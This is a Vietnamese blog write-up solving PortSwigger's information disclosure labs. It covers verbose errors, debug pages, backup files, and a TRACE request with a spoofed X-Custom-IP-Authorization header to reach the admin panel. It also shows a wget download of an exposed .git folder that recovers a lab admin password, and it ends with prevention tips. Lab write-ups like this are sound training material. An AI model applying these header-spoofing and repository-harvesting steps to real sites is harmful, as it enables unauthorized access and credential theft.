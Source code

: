 ```yaml
---
title: "[PortSwigger Lab] - Information Disclosure Vulnerabilities"
description: Solution of Information Disclosure Vulnerabilities Lab
date: 2025-06-12 20:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, information disclosure]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-12-portswigger-lab-information-disclosure-vulnerabilities/information-disclosure-vulnerabilities.png
    alt: Information Disclosure Vulnerabilities
---
```


## Introduction
---
### **Information Disclosure Vulnerabilities**
- **Information Disclosure Vulnerabilities** hay còn gọi là **information leakage**, là khi một website vô tình tiết lộ thông tin nhạy cảm cho người dùng — thường là không có chủ đích.

### How do information disclosure vulnerabilities arise?
1. Không loại bỏ nội dung nội bộ khỏi nội dung công khai
    - Lập trình viên để lại **comment** trong **HTML** như:

    ```html
    <!-- TODO: remove debug endpoint /debug-info before release -->
    ```
    - Dữ liệu test hoặc file ẩn bị lộ trong môi trường **production**.

2. Cấu hình bảo mật không đúng hoặc không đầy đủ
    - Không tắt chế độ **debug**, khiến **hacker** thấy thông tin như **stack trace**, phiên bản **framework**, v.v.
    - Cấu hình mặc định **(default config)** tiết lộ thông tin kỹ thuật như cấu trúc thư mục, lỗi **SQL**, **file .env**, v.v.
    - **Web server** trả về lỗi chi tiết **(verbose error)**, giúp kẻ tấn công suy đoán cấu trúc **backend**.

3. Thiết kế và hành vi ứng dụng có sai sót
    - Ứng dụng trả về lỗi khác nhau với tài khoản đúng và sai, giúp kẻ tấn công **brute-force username/email**:
    - Phản hồi HTTP 200/403/404 khác nhau tùy vào trạng thái tài nguyên (giúp dò đoán đường dẫn, file, ID...).

## Solve Information Disclosure Vulnerabilities Lab
---
### Lab: Information disclosure in error messages
- Truy cập 1 **product page** bất kỳ
- Thay đổi `product id` thành dạng **string** => Ứng dụng hiển thị lỗi kèm **version** của **framework**

Request
```
https://0a0b00f20356c863832f52f200930024.web-security-academy.net/product?productId=xnxx
```

Response
```
Internal Server Error: java.lang.NumberFormatException: For input string: "xnxx"
...

Apache Struts 2 2.3.31
```
- Copy và Submit

### Lab: Information disclosure on debug page
- Truy cập trang web và **inspect source**
- Tìm từ khóa `debug` ở phần **source** 
- **Enter** cho đến khi thấy

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
- Truy cập đến `/cgi-bin/phpinfo.php` 
- Lấy `SECRET_KEY` và **submit**

### Lab: Source code disclosure via backup files

| Kiểu backup phổ biến                 | Ví dụ tên file                   |
| ------------------------------------ | -------------------------------- |
| Thêm dấu `~` vào cuối                | `index.php~`                     |
| Đổi đuôi sang `.bak`, `.old`, `.tmp` | `index.php.bak`, `config.js.old` |

- Truy cập `/robots.txt` là file hướng dẫn **google bot** tài nguyên nào được phép **index**
- Quan sát ta thấy đường dẫn đến `/backup`

```html
User-agent: *
Disallow: /backup
```
- Truy cập trang `/backup` và đọc mã nguồn của file bên trong nó

```java
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ha2e7u15efm2hbyxnub5ype2d16n73sp"
        ).withAutoCommit();
```
- Lấy password và submit

### Lab: Authentication bypass via information disclosure
- Truy cập trang web và gửi request đến **Burp Repeater**
- Thay đổi **method** thành `TRACE` và gửi lại request
    - TRACE là một phương thức chẩn đoán **(diagnostic)** trong **HTTP**.
    - Khi bạn gửi một yêu cầu `TRACE` tới máy chủ, nó sẽ phản hồi lại chính xác nội dung của yêu cầu bạn đã gửi.

```http
TRACE / HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
```
- Quan sát **response** có chứa trường `X-Custom-IP-Authorization: 118.69.31.247`
- Đây không phải là **header** tiêu chuẩn của **HTTP** mà là **custom header**
- Ứng dụng có thể đã sử dụng trường này để cho phép hoặc từ chối truy cập nếu địa chỉ **IP** được xác định là `"được phép"`
- Thay đổi request đến `/admin` và thêm trường này với **IP** là `127.0.0.1`

```http
TRACE /admin HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Gửi lại **request**
- Quan sát **response** chứa đường dẫn để xóa user `carlos`
- Gửi tiếp request để xóa user `carlos`

```http
TRACE /admin/delete?username=carlos HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Ứng dụng sẽ xác nhận rằng request đến từ `127.0.0.1` là request cục bộ, nhầm lẫn là admin nên cho phép truy cập tài nguyên trang **admin**

### Lab: Information disclosure in version control history
- Truy cập đến `/.git` => Lỗi cấu hình => Lộ file `.git`
- Tài file `.git` đó về

```zsh
wget -r https://0a41004e04a009548185fcda0083004e.web-security-academy.net/.git
```

#### **Idea 1:** Using **git** command
- Truy câp đến thư mục `.git` **(chưa có "git" thì lo mà tải đi nhá)**
- Xem **log** của **repository**

```zsh
git log
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 0591a2262f16349fbc79f83e1588f13877d6afbd
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

- Ta thấy **commit** có id `f5ebf4a50140e3538a518029f7c9f6ab8318c201` đã 
`Remove admin password from config` => Ta có thể xem sự thay đổi tại commit này để xem **password** bị xóa là gì

```zsh
git show f5ebf4a50140e3538a518029f7c9f6ab8318c201
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index ee7c7c9..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Author đã xóa `ADMIN_PASSWORD=d0udappaq6625y2dwbi8` và thay bằng `ADMIN_PASSWORD=env('ADMIN_PASSWORD')`
- Đăng nhập bằng tài khoản **admin** với **password** vừa tìm được
- Xóa uses `carlos`

#### **Idea 2:** Using **Git Cola**
-[**Git Cola**](https://git-cola.github.io/downloads.html) Là một ứng dụng **GUI** mã nguồn mở giúp bạn sử dụng Git mà không cần dùng dòng lệnh **(terminal)**.
- Khởi động **Git Cola**
- Chọn thư mục chứa `.git` cần xem
- Click vào `admin.conf`, chọn **Commit Tab** > **Undo Last Commit**
- Click vào `admin.conf` để xem `password`

```
deleted file mode 100644
@@ -1 +0,0 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
```


## Prevent
---
1. Xác định rõ thông tin nào là "nhạy cảm"
2. Kiểm tra mã nguồn để phát hiện rò rỉ thông tin
3. Sử dụng thông báo lỗi chung chung
4. Tắt tính năng debug, test và logging nhạy cảm ở production
5. Cấu hình kỹ lưỡng các công nghệ bên thứ ba

---
Goodluck! 🍀🍀🍀 